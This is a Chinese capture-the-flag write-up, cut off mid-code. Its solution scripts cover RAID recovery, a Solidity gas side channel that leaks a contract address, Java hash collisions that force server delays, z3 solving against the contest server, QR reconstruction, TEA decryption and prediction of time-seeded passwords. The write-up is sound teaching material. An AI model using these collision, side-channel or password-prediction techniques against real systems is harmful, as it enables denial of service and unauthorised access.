

最后还需要 patch ROM 以模拟。可以发现 ROM 中的代码和 elf 中是完全相同的，搜索原来指令的 hex 并改掉就好了。

还有个小问题，flag 只显示一瞬间就消失了，我是通过录屏来解决的。

## 阵列恢复大师

### RAID 5

RAID 5 有一个性质，所有镜像异或起来是 0。在这几个镜像 0x690000 开始的一段区域内，可以看到大量有意义内容，而也有一部分乱码。每个文件的乱码恰好长度为 0x10000，故可以推算出 RAID 的块长是 0x10000。

接下来可以用下面的脚本分析出块之间的顺序：

```python
import os, string

s = []
for x in os.listdir('.'):
    if x.endswith('img'):
        s.append(x)

s = sorted(s)

print(s)
f = []
for x in s:
    f.append(open(x, 'rb').read())

chars = string.printable.encode()

for _addr in range(0x69, 0x70):
    addr = _addr * 0x10000
    o = []
    for i in range(5):
        t = f[i][addr:addr + 10]
        if any(x not in chars for x in t):
            o.append(i)
    print(hex(_addr), o)

for _addr in range(0x69, 0x6b):
    addr = _addr * 0x10000
    print('=' * 10, hex(addr))
    for i in range(5):
        print(i, f[i][addr:addr + 20], f[i][addr + 0x10000 - 20:addr + 0x10000])
```

得到如下输出：

```
['3D8qN9DH91Q.img', '3RlmViivyG8.img', '60kE0MQisyY.img', 'IrYp6co7Gos.img', 'QjTgmgmwXAM.img']
0x69 [2]
0x6a [4]
0x6b [0]
0x6c [3]
0x6d [1]
0x6e [2]
0x6f [4]
========== 0x690000
0 b' 122, 174,   8,\n    ' b',0xac },\n    { 0x57,'
1 b'    SEED_PLUS again.' b')\n\talgo = 0;  /* Out'
2 b'\x10\x06\x11\x010:~\'-}|~"\x12\x08~\x19\x05L\x0e' b'Qh\x16\x02\x03OCL{\x00\x10JG\x1d\x0f\x1a\x06?\x07\x16'
3 b' of core - silently ' b'  86, 244, 234, 101,'
4 b'0xe3,0x1f,0x8f }, { ' b'tr_4 (ctx, ctr, outb'
========== 0x6a0000
0 b'_C(0xfd743b194916a1c' b'sb, sc, sd, 4, 0x99,'
1 b'  }\n    }\n\n  if (der' b'ork on. */\n\n  /* Loo'
2 b'uf, inbuf);\n        ' b'release (l1);\n      '
3 b'p over all blocks.  ' b'f) /*  455 */,\n  U64'
4 b'z%\x16lTZ\x06\x03C|syU\x12\x1cZM\x0bT\x11' b'\x08\\\x0bJW^G\x14D\x127)\x00*%\x1aX\x00@W'
```

可以看到，从 0x690000 开始，每个备用块（存储其他有意义内容的异或的块）的 id 依次是 2、4、0、3、1 循环，而下面块的顺序是 1、3、0、4、2、1、3、0…… 和备用块的顺序相反，符合 RAID 5 的要求。

于是可以得到最终生成整个镜像的脚本：

```python
import os

s = []
for x in os.listdir('.'):
    if x.endswith('img'):
        s.append(x)

s = sorted(s)

f = []
for x in s:
    f.append(open(x, 'rb').read())

perm = [2, 4, 0, 3, 1][::-1]

cnt = 0
o = []
for i in range(0, len(f[0]), 0x10000):
    for j in range(4):
        o.append(f[perm[(j - cnt) % 5]][i:i + 0x10000])
    cnt += 1
open('out3.bin', 'wb').write(b''.join(o))
```

挂载后即可得到 flag。

### RAID 0

延续上一题的思路，这次可以在 0x8C0000 附近看到有意义内容，并且可以看出块大小是 0x20000。

同样打印每块的前后缀：

```python
import os, string

s = []
for x in os.listdir('.'):
    if x.endswith('img'):
        s.append(x)

s = sorted(s)

print(s)
f = []
for x in s:
    f.append(open(x, 'rb').read())

for _addr in range(0x86, 0x90, 2):
    addr = _addr * 0x10000
    print('=' * 10, hex(addr))
    for i in range(8):
        print(i, f[i][addr:addr + 50], f[i][addr + 0x20000 - 50:addr + 0x20000])
```

可以分析得到一部分文件之间的顺序：$2\to 7\text{(next block)},0\to 1\to 4,5\to 3,7\to 6$（完整输出较长，可在 [https://paste.debian.net/plainh/dafd12b6](https://paste.debian.net/plainh/dafd12b6) 查看）。由于有二进制内容，文件之间的所有顺序是很难得到的，但这已经限制到了只剩两种情况：$7\to 6\to 0\to 1\to 4\to 5\to 3\to 2$ 和 $7\to 6\to 5\to 3\to 0\to 1\to 4\to 2$。

经实验，前者是正确的，还原脚本如下：

```python
import os, string

s = []
for x in os.listdir('.'):
    if x.endswith('img'):
        s.append(x)

s = sorted(s)

f = []
for x in s:
    f.append(open(x, 'rb').read())

#perm = [7, 6, 5, 3, 0, 1, 4, 2]
perm = [7, 6, 0, 1, 4, 5, 3, 2]

o = []
for i in range(0, len(f[0]), 0x20000):
    for j in range(8):
        o.append(f[perm[j]][i:i + 0x20000])
open('out2.bin', 'wb').write(b''.join(o))
```

同样，挂载后即可得到 flag。

## 链上预言家

### 预测已知

搜索 CREATE2 可以发现，生成的地址只和自身地址、salt、目标合约的创建代码有关，并且是可以提前计算出的。

于是在 `predict` 里，我们获取到这些信息然后计算就可以了。

```solidity
contract Predictor1 {
    function predict(address challenge) external returns (address) {
        return address(uint160(uint256(keccak256(abi.encodePacked(
            bytes1(0xff),
            challenge,
            Challenge(challenge).seed(),
            // keccak256(abi.encodePacked(type(Dummy).creationCode))
            uint256(0xfa9e82ddd8dbc9204f2d4547201e19c63d0c253a92ff97cc56ab55aff8eeb51e)
        )))));
    }
}
```

有个小坑，solidity 编译出代码末尾会有源代码相关的类似 hash 的东西，所以最好是硬编码 Dummy 的 hash 值。（单独编译 `challenge1.sol` 得到的创建代码看起来和远程是相同的）

### 预测未知

做出前一题后，搜索了若干文档，翻了 geth 的源码，但是毫无思路。

后来注意到 `challengeX.sol` 中，`create_child` 是 public 的，这意味着我们可以想办法调用他然后偷数据出来。

又搜索了若干文档，看了若干 geth 的源码，发现 call 完，即使被 revert，也会影响状态（如剩余 gas），于是搞了一个通过剩余 gas 来获取 address 的每个 bit 的东西。

```solidity
contract Worker {
    function work(address challenge, uint8 bit) public returns (bool) {
        address a = Challenge(challenge).create_child();
        uint160 b = uint160(a);
        if ((b>>bit&1)==1) revert();
        for(uint i=0;i<100;i++)b=b+1;
        revert();
        return true;
    }
    function check(address challenge, uint8 bit) public returns (uint160) {
        uint256 old_gas=gasleft();
        (bool success, bytes memory returnData) = address(this).call(
            abi.encodeWithSignature(
                "work(address,uint8)",
                challenge,
                bit
            )
        );
        if(old_gas-gasleft()>140000)return 0;
        return 1;
    }
}

contract Hacker {
    function predict(address challenge) external returns (address) {
        Worker w = new Worker();
        uint160 res=0;
        for(uint160 i=0;i<160;i++)res+=w.check(challenge,uint8(i))<<i;
        return address(res);
    }
}
```

（后来了解到 revert message 也可以直接获取到，这个做法太麻烦了。。）

## 助记词

### 第一顿大餐

将一组助记词复制 32 次提交即可。

### 第二顿大餐

`Phrase.equals` 只有当 `hashCode` 相同且实际值不同时才会被多次调用，所以需要想办法构造哈希碰撞。

查阅资料可知，Java 对字符串和数组的 hash 都是每次乘 31 的 Rolling hash。不难实现一个找到所有 hash 是给定值的字符串的程序：

```cpp
#include<bits/stdc++.h>
typedef unsigned int uint;

std::string s[600];

uint update(uint x,const std::string&v)
{
	for(char y:v)x=x*31+y;
	return x;
}

uint update(uint x,char v)
{
	x=x*31+v;
	return x;
}

int main(int argc,char**argv)
{
	freopen("mnemonics.txt","r",stdin);
	for(int i=0;i<600;i++)
		std::cin>>s[i];
	uint target=atoi(argv[1]);
	
	#pragma omp parallel for num_threads(32)
	for(int i=0;i<600;i++)
	{
		uint hi=update(update(0,s[i]),32);
		for(int j=0;j<600;j++)
		{
			uint hj=update(update(hi,s[j]),32);
			for(int k=0;k<600;k++)
			{
				uint hk=update(update(hj,s[k]),32);
				for(int l=0;l<600;l++)
				{
					uint hl=update(hk,s[l]);
					if(hl==target)
					{
						std::cout<<s[i]<<' '<<s[j]<<' '<<s[k]<<' '<<s[l]<<std::endl;
					}
				}
			}
		}
	}
}
```

而实现了这个还不够，看到 `Phrase.hashCode` 中返回值是 `Objects.hash(this.text, this.time, this.user)`，也就相当于把 `this.text, this.time, this.user` 丢到数组里然后对这个数组做 hash。当我们让程序运行时间变长时，`this.time` 会增加，此时为了让整体 hash 相同，就需要让 `this.text` 的 hash 减少 $31^{-1}\bmod 2^{32}=3186588639$。

假设我们已经对 $i\in [0,11]$ 求出 hash 是 $C-i\cdot 31^{-1}$ 的字符串并存入了 `hash/i.txt`，接下来应该提交怎样的数据才能让服务器尽量多 sleep 呢？

一个朴素的想法是，假设在某个时刻开始执行，模拟一遍让每个 hash 都相等。最后再找能满足尽量多开始时刻的 payload。为了去除没碰撞上的 hash 的影响，可以钦定 sleep 时间比 20ms 小，比如设为 18ms，这样就能一定程度上模拟没碰撞上的 hash。

最后，这个做法还是有很大的随机性，需要尝试若干次才能得到 flag。

```python
import json

f = {}

for bu in range(50):
    cur = bu + .5
    s = [[]]
    for i in range(32):
        s[-1].append(i)
        cur += i * .9 # 0.9*20ms
        if cur > 50:
            cur -= 50
            s.append([])
    s = tuple(map(tuple, s))
    if s not in f:
        f[s] = []
    f[s].append(bu)
best = 0
for x, y in f.items():
    if len(y) >= best:
        best = len(y)
        bp = x
print(best, bp)
res = []
for i, s in enumerate(bp):
    if len(s) == 0:
        continue
    res += open('hash/%d.txt' % i).readlines()[:len(s)]
res = list(map(lambda x: x.strip(), res))
print(json.dumps(res))
```

## Co-Program

### Co-Login

求解一个式子正是 z3 的强项，只要把式子处理一下，丢给 z3 就好了。

由于 z3 默认是有符号整数，所以我用了稍大一点的 BitVec，并包装了一下。

```python
from pwn import *
from z3 import *

mask = 2**36 - 1


class Uint36:
    def __init__(self, sym, o=None):
        if o is not None:
            self.v = o
            return
        self.v = BitVec(sym, 40)

    def req(self):
        return And(self.v >= 0, self.v < 2**36)

    def iszero(self):
        t = self.v | self.v >> 18
        t |= t >> 9
        t |= t >> 3 | t >> 6
        t |= t >> 1 | t >> 2
        return t & 1

    def zeromask(self):
        t = (1 ^ self.iszero())
        t = t | t << 1 | t << 2
        t = t | t << 3 | t << 6
        t = t | t << 9
        return t | t << 18

    def __neg__(self):
        return Uint36(0, (-self.v) & mask)

    def __add__(self, other):
        return Uint36(0, self.v + other.v & mask)

    def __sub__(self, other):
        return Uint36(0, self.v - other.v & mask)

    def __mul__(self, other):
        return Uint36(0, self.v * other.v & mask)

    def __truediv__(self, other):
        t = other.zeromask()
        return Uint36(0, t | ((t ^ mask) & self.v / other.v))

    def __mod__(self, other):
        t = other.zeromask()
        return Uint36(0, (t & self.v) | ((t ^ mask) & self.v % other.v))


context.log_level = 'debug'

r = remote('202.38.93.111', 10700)
r.sendlineafter('Please input your token: ', 'token')

r.recvuntil('Welcome to Macrohard 36-bit computer!\n')

for T in range(100):
    s = r.recvline().strip().decode()
    res = int(r.recvline())
    print(T, s, res)

    t = s
    for o in '-+*/%()':
        t = t.replace(o, ' ')
    vars = list(set(t.split()))
    var_sym = {x: Uint36(x) for x in vars}
    res_sym = eval(s, var_sym)
    solver = Solver()
    for x in vars:
        solver.add(var_sym[x].req())
    solver.add(res_sym.v == res)
    if solver.check() == sat:
        m = solver.model()
        def safe(x): return m[x].as_long() if m[x] is not None else 0
        ans = ' '.join([str(x) + '=' + str(safe(var_sym[x].v)) for x in vars])
    else:
        ans = '1'
    print(ans)

    r.sendline(ans)
r.interactive()
```

### Co-UnitTest

根据提供的交互格式说明，表达式是类似这种的：

```
if((x<=(x*x)),if((x<=(y-(x*x))),if((x<=y),((-(y+(y+y)))%x),(((y-x)%(y+y))-x)),(((-(y+y))%x)-y)),(((-y)%x)-(y+y)))
```

实测也发现，大概是这么些操作。那么需要考虑如何还原。

if 部分的条件有太多种可能满足要求的情况，几乎不可能完全还原，故忽略。

忽略 if 后，可以假设答案是 $A+B$ 形式，其中 $A$ 和 $B$ 是 $C/D,C\times D,C\bmod D,C$ 之一的形式，而 $C$ 和 $D$ 则是 $px+qy$ 的形式，其中 $|p|,|q|$ 较小。

对于一组 UnitTest，可以暴力枚举出所有 $C$ 算出的结果，然后 meet-in-middle 来找出最可能的 $D$。

经过在爬取的数据集上的测试，90% 以上的 UnitTest 中，至少有一个值能被上面的方法表示。

经过实际和题目交互测试，正确率约有 25%~30%，跑了几小时后得到了 flag。

```python
from pwn import *

mask = 2**36 - 1


class Vec36:
    def __init__(self, s):
        self.s = [x & mask for x in s]

    def __neg__(self):
        return Vec36(-x for x in self.s)

    def __add__(self, other):
        return Vec36(map(lambda x, y: x + y, self.s, other.s))

    def __sub__(self, other):
        return Vec36(map(lambda x, y: x - y, self.s, other.s))

    def __mul__(self, other):
        return Vec36(map(lambda x, y: x * y, self.s, other.s))

    def __truediv__(self, other):
        return Vec36(map(lambda x, y: x // y if y != 0 else mask, self.s, other.s))

    def __mod__(self, other):
        return Vec36(map(lambda x, y: x % y if y != 0 else x, self.s, other.s))

    def times(self, k):
        return Vec36(x * k for x in self.s)


def showx(a, b, pr=False):
    if b == 0:
        return ('+' if pr else '') + '%s-%s' % (a, a)
    if b > 0:
        return ('+' if pr else '') + '+'.join([a] * b)
    return '-' + '-'.join([a] * -b)


def solve(q):
    x = Vec36(t[0] for t in q)
    y = Vec36(t[1] for t in q)
    req = Vec36(t[2] for t in q)

    a = []
    for xa in range(-4, 5):
        for ya in range(-4, 5):
            a.append((x.times(xa) + y.times(ya), showx('x', xa) + showx('y', ya, True)))
    b = a[:]
    for u, ut in a:
        for v, vt in a:
            b.append((u / v, '(%s)/(%s)' % (ut, vt)))
            b.append((u * v, '(%s)*(%s)' % (ut, vt)))
            b.append((u % v, '(%s)%%(%s)' % (ut, vt)))
    k = [{}for _ in range(5)]
    for p, (u, ut) in enumerate(b):
        for i in range(5):
            if u.s[i] not in k[i]:
                k[i][u.s[i]] = []
                k[i][u.s[i]].append(p)
    f = {}
    for i in range(5):
        pv = req.s[i]
        for p, (u, ut) in enumerate(b):
            for sgx in range(2):
                for sgy in range(2):
                    rqy = (pv - (-1 if sgx else 1) * u.s[i]) * (-1 if sgy else 1) & mask
                    if rqy in k[i]:
                        for pv in k[i][rqy]:
                            # if p == 0 and pv == 48 and sgx == 0 and sgy == 0:
                            #    print(req.s[i], pv, u.s[i], rqy)
                            key = (p, pv, sgx, sgy)
                            if key not in f:
                                f[key] = 0
                            f[key] += 1
    mxv = -1
    mxk = None
    for k, v in f.items():
        if v > mxv:
            mxv = v
            mxk = k
    if mxk is None:
        return 'x-x'
    p0, p1, s0, s1 = mxk
    return 'x-x' + ('-' if s0 else '+') + '(' + b[p0][1] + ')' + ('-' if s1 else '+') + '(' + b[p1][1] + ')'


r = remote('202.38.93.111', 10800)
r.sendlineafter('Please input your token: ', 'xxx')

for T in range(10):
    r.recvuntil('Challenge!\n')
    q = []
    for _ in range(5):
        x, y, ans = map(lambda x: int(x[x.find('=') + 1:]), r.recvline().strip().decode().split(', '))
        q.append((x, y, ans))
    s = solve(q)
    r.sendline(s)
r.recvuntil("You've solved ")
solved = int(r.recvuntil(' '))
print('solved:', solved)
if solved >= 7:
    r.interactive()
```

## 马赛克

一种简单的想法是，依次确定二维码中每个位置的位置，当某个马赛克块包含的位置全部被确定时，可以算出这个马赛克的颜色是否正确。

稍微优化一下，每次直接找限制最多的马赛克块（他包含的位置可选方案数最少的），然后再 dfs，就可以很快跑出答案了。可以跑出一大堆答案，不过由于二维码的纠错特性，任意一个都能扫出来。

```python
from PIL import Image
from copy import deepcopy

X, Y = 137, 103
N = 20
BOX_SIZE = 23
PIXEL_SIZE = 11
M = 57

im = Image.open('pixelated_qrcode.bmp')

s = [[-1] * M for _ in range(M)]
f = [[{}for _ in range(N)]for __ in range(N)]
g = [[-1] * N for _ in range(N)]

for i in range(M):
    for j in range(M):
        for x_ in range(PIXEL_SIZE):
            for y_ in range(PIXEL_SIZE):
                x = x_ + i * PIXEL_SIZE
                y = y_ + j * PIXEL_SIZE
                if X <= x < X + N * BOX_SIZE and Y <= y < Y + N * BOX_SIZE:
                    xi = (x - X) // BOX_SIZE
                    yi = (y - Y) // BOX_SIZE
                    if (i, j) not in f[xi][yi]:
                        f[xi][yi][(i, j)] = 0
                    f[xi][yi][(i, j)] += 1
                    t = im.getpixel((x, y))
                    assert g[xi][yi] == -1 or g[xi][yi] == t
                    g[xi][yi] = t
                    continue
                t = int(im.getpixel((x, y)) == 0)
                assert s[i][j] == -1 or s[i][j] == t
                s[i][j] = t

vis = [[0] * N for _ in range(N)]


def dfs(_i):
    if _i == N * N:
        for i in range(M):
            for j in range(M):
                for x_ in range(PIXEL_SIZE):
                    for y_ in range(PIXEL_SIZE):
                        x = x_ + i * PIXEL_SIZE
                        y = y_ + j * PIXEL_SIZE
                        im.putpixel((x, y), 255 * (1 - s[i][j]))
        im.save('ans.png')
        exit()
    best = 100
    bp = None
    for xi in range(N):
        for yi in range(N):
            if vis[xi][yi]:
                continue
            cnt = 0
            usum = 0
            ut = []
            for (x, y), c in f[xi][yi].items():
                if s[x][y] != -1:
                    usum += c * 255 * (1 - s[x][y])
                    continue
                ut.append((x, y, c))
            for mask in range(1 << len(ut)):
                tsum = usum
                for i, (x, y, c) in enumerate(ut):
                    co = mask >> i & 1
                    tsum += c * 255 * (1 - co)
                if tsum // (BOX_SIZE * BOX_SIZE) == g[xi][yi]:
                    cnt += 1
            if cnt < best:
                best = cnt
                bp = (xi, yi)
    xi, yi = bp
    vis[xi][yi] = 1
    usum = 0
    ut = []
    for (x, y), c in f[xi][yi].items():
        if s[x][y] != -1:
            usum += c * 255 * (1 - s[x][y])
            continue
        ut.append((x, y, c))
    for mask in range(1 << len(ut)):
        tsum = usum
        for i, (x, y, c) in enumerate(ut):
            co = mask >> i & 1
            s[x][y] = co
            tsum += c * 255 * (1 - co)
        if tsum // (BOX_SIZE * BOX_SIZE) == g[xi][yi]:
            dfs(_i + 1)
    for i, (x, y, _) in enumerate(ut):
        s[x][y] = -1
    vis[xi][yi] = 0


dfs(0)
```

## minecRaft

不难发现主要逻辑在 `jsm/miscs/flag.js` 中。

经调试，可以发现这个函数包含了主要加密逻辑：



其将 flag 分为 8 字节一块，其中 `code` 函数如下：



可以看出是一个 TEA 系列的加密。

而在下放的 `_0x381b` 函数中，有一大串 hex，可以合理猜测是密文：



最终可以编写与 code 对应的 decode 函数，然后将密文 unhex 后重新传入加密函数，即可得到 flag。

```js
// 还需将加密函数中 plaintext = escape(this); 改成 plaintext = this;

function decode(_0x167a71, _0x762113) {
    let _0x412874 = _0x167a71[0x0],
        _0x3f9c14 = _0x167a71[0x1];
    const _0x540f95 = (0x52cfb2de + 0x4b67c6db),
        _0x2bdc23 = _0x540f95 * 0x20;
    let _0x4f8e47 = _0x2bdc23;
    while (_0x4f8e47 != 0) {
        _0x3f9c14 -= (_0x412874 << 0x4 ^ _0x412874 >>> 0x5) + _0x412874 ^ _0x4f8e47 + _0x762113[_0x4f8e47 >>> 0xb & 0x3],
            _0x4f8e47 -= _0x540f95,
            _0x412874 -= (_0x3f9c14 << 0x4 ^ _0x3f9c14 >>> 0x5) + _0x3f9c14 ^ _0x4f8e47 + _0x762113[_0x4f8e47 & 0x3];
    }
    _0x167a71[0x0] = _0x412874,
        _0x167a71[0x1] = _0x3f9c14;
}
function gyflagh(_0x111955) {
    const _0x50051f = _0x22517d;
    let _0x3b790d = _0x111955[_0x50051f(0x1a8)](_0x50051f(0x1b7));
    console.log(_0x3b790d);
    if (_0x3b790d === _0x50051f(0x1aa)) return !![];
    return ![];
}
function hexToString(hex) {
    var string = '';
    for (var i = 0; i < hex.length; i += 8) {
        string += String.fromCharCode(parseInt(hex.substr(i + 6, 2), 16));
        string += String.fromCharCode(parseInt(hex.substr(i + 4, 2), 16));
        string += String.fromCharCode(parseInt(hex.substr(i + 2, 2), 16));
        string += String.fromCharCode(parseInt(hex.substr(i, 2), 16));
    }
    return string;
}
console.log(gyflagh(hexToString('6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c')));
```

## 密码生成器

根据题目描述，可以猜测密码生成器用到了时间，然后我们需要在合适的时间生成密码。

查看 strings，找到如下函数，猜测是生成密码的字符集：



将这些字符串复制到的位置打读写断点，在生成密码时可以看到被断下：



同时这个函数中还用到了 time64，因此非常合理。

继续往下逆，可以看到具体的生成流程：



最终生成密码的代码如下：

```cpp
#include<bits/stdc++.h>

typedef long long ll; 
typedef unsigned int uint; 

unsigned int __fastcall mt_next(unsigned int *a1)
{
  unsigned __int64 v1; // rax
  __int64 v2; // rdx
  unsigned int v3; // eax
  unsigned int v4; // eax
  unsigned int *v6; // rax
  unsigned int *v7; // rdx
  unsigned int v8; // er8
  unsigned int v9; // edx
  unsigned int v10; // edx

  v1 = *((ll *)a1 + 312);
  if ( v1 > 0x26F )
  {
    v6 = a1;
    v7 = a1;
    do
    {
      v8 = v7[397] ^ ((v7[1] & 0x7FFFFFFF | *v7 & 0x80000000) >> 1);
      if ( (v7[1] & 1) != 0 )
        v8 = v7[397] ^ ((v7[1] & 0x7FFFFFFF | *v7 & 0x80000000) >> 1) ^ 0x9908B0DF;
      *v7++ = v8;
    }
    while ( a1 + 227 != v7 );
    do
    {
      v9 = *v6 ^ ((v6[228] & 0x7FFFFFFF | v6[227] & 0x80000000) >> 1);
      if ( (v6[228] & 1) != 0 )
        v9 = *v6 ^ ((v6[228] & 0x7FFFFFFF | v6[227] & 0x80000000) >> 1) ^ 0x9908B0DF;
      ++v6;
      v6[226] = v9;
    }
    while ( a1 + 396 != v6 );
    v3 = *a1;
    v10 = a1[396] ^ ((*a1 & 0x7FFFFFFF | a1[623] & 0x80000000) >> 1);
    if ( (*a1 & 1) != 0 )
      v10 = a1[396] ^ ((*a1 & 0x7FFFFFFF | a1[623] & 0x80000000) >> 1) ^ 0x9908B0DF;
    a1[623] = v10;
    v2 = 1;
  }
  else
  {
    v2 = v1 + 1;
    v3 = a1[v1];
  }
  *((ll *)a1 + 312) = v2;
  v4 = ((v3 ^ (v3 >> 11)) << 7) & 0x9D2C5680 ^ v3 ^ (v3 >> 11) ^ ((((v3 ^ (v3 >> 11)) << 7) & 0x9D2C5680 ^ v3 ^ (v3 >> 11)) << 15) & 0xEFC60000;
  return (v4 >> 18) ^ v4;
}

float float_mt(uint*a1)
{
	uint tmp=mt_next(a1);
	return (float)((float)(uint)tmp + 0.0) * (float)2.3283064e-10;
}

const int len=0x5e;
const char chars[len]={0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47, 0x48, 0x49, 0x4a, 0x4b, 0x4c, 0x4d, 0x4e, 0x4f, 0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57, 0x58, 0x59, 0x5a, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67, 0x68, 0x69, 0x6a, 0x6b, 0x6c, 0x6d, 0x6e, 0x6f, 0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77, 0x78, 0x79, 0x7a, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37, 0x38, 0x39, 0x30, 0x7e, 0x21, 0x40, 0x23, 0x24, 0x25, 0x5e, 0x26, 0x2a, 0x28, 0x29, 0x5f, 0x2b, 0x60, 0x2d, 0x3d, 0x5b, 0x5d, 0x5c, 0x7b, 0x7d, 0x7c, 0x3b, 0x27, 0x3a, 0x22, 0x2c, 0x2e, 0x2f, 0x3c, 0x3e, 0x3f};

int nxt(uint*mt,int len)
{
	float v30[2]={0.,1.};
	float v16 = float_mt(mt);
	float v17 = (float)(v16 * (float)(v30[1] - v30[0])) + v30[0];
	float v18 = float_mt(mt);
	int v19 = len;
	int v20 = (int)(float)((float)((float)((float)(v18 * (float)(v30[1] - v30[0])) + v30[0]) * v17) * (float)v19);
	return v20;
}

void gen(uint seed)
{
	uint mt[626];
	mt[0]=seed;
	
	int v6=1;
	uint v7=seed;
	while(1)
	{
		mt[v6] = v6 + 1812433253 * (v7 ^ (v7 >> 30));
		if(++v6==624)break;
		v7=mt[v6-1];
	}
	*((ll *)mt + 312) = 624;
	while(1)
	{
		char tmp[17];
		for(int j=0;j<16;j++)
		{
			int v=nxt(mt,len);
			tmp[j]=chars[v];
		}
